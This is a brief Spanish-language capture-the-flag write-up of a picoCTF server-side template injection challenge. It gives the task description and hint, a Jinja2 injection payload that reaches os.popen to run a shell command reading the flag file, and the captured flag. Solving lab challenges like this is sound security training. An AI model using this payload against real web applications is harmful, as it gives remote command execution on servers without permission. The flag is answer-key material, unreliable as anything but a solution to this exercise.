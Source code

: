 ## Descripción:
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:63261/)!

Hints:
Server Side Template Injection

## Solución:
```
Se puso esto de injection:

{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
```

## Notas:


